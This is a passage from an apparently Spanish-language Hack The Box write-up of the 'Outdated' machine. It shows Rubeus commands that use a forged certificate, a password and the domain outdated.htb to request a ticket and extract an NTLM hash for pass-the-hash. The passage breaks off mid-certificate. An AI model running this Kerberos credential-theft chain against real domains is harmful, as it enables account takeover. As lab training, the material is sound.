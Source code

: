 ```null
MyeGimYk5NpfOF/BhIW4Gx8uWKS1wz5NO6xJnz00Arc1lS9+DXQD+1aOHfAgCJzxzde9OhMAocp1RMRwZZi0/PosO+O8eUhnnTVL3jPWoJvu7xfmaG6YS9tfmtfdHXRk2GuwcpvY7qhMuPuwsLBCT1DBuSFWZ2FrSYz2oJiZ4tmV1cnCL0OD/p/GvHa8kJzwYVedLgAVB4yx/X9Di
AiaprEVTHYg0GvVx0o6fkhzxoltQ3cVckdLEqSMtnABk3LbxCk68K8yWb8lLZq+9NQcUiMvDplDENVOhkuA8qk5SOBWuIsHZojVkt4RE1B5EorseE4RrEwZ6B7RfymvbwDYc59VhXy/vErCsAoka2zdH00zG6d/9nAYhMf/PtvAjxNC/RrB6gDnAQ5qoi9gmSN92OHYDvXWRVoaRs
CVc4fhAl9dg/5tSZQoiP2w83GMZieI/igLXGjP7i5G1lEe2fsIAhrCs31bC9Kf561lNwPFKuE/OMb4DdkktWUoCfJx//WCHNabo3cC+zPDjZhktnlRLvYEbfJ34GNqf7jreYii1YnPCGcwYZ5RglMtsl/ZP4tVx28zn4Gd8VMet/NQc91xMypYcL1FX2K/tIzMZ28OlvreBy+P6z8
MzMBYCSRyxQAuXCBtQc8YlCetTmV7b/7nNkd794ePQhRqSf1FDU7A/T5EgerxBEh6sS9ceguhISfbV5kAlshFGvpX6CqT5EyLbpZn3Gd0jsH0x8Jp9fAY1px4yPvIChz3uucA9lk6IHXilwBetSXqPkVDA7MB8wBwYFKw4DAhoEFPkrB6ntGJfAi/a1bYFK81iYA0reBBTdtrNjyS
iJi3pk0oLO7U+BaY5Z0AICB9A= /password:"LyqIj3z2DRpHGRAT" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
```

El propio script te da el comando que tengo que ejecutar con Rubeus para obtener un hash NTLM y poder hacer PassTheHash

Subo el Rubeus a la máquina de la misma forma que el SharpHound

Ejecuto el Rubeus

```null
PS C:\Temp> .\Rubeus.exe asktgt /user:sflowers /certificate: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
```